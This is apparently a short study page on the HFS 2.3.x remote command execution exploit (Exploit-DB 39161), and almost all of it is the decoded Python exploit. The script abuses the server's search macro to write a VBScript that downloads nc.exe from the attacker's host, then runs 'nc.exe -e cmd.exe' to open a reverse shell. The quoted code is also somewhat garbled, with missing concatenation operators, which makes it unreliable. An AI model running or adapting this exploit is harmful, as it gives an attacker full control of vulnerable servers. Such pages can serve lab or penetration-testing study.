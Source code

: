 # HFS 2.3.x remote command execution 

<https://www.exploit-db.com/exploits/39161>



 <iframe src=".\HttpFIleServerRCE.py" frameborder="0" allowfullscreen="true" style="background-color: white" > </iframe>



after decode the whole exploit, we can see

~~~~python
#!/usr/bin/python
...
import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " save ".}")

	def execute_script():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " exe ".}")

	def nc_run():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " exe1 ".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	
    vbs = "C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with"

	save= "save|"   vbs
	vbs2 = "cscript.exe C:\Users\Public\script.vbs"
	exe= "exec|" vbs2
	vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
	exe1= "exec|" vbs3
    
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
~~~~



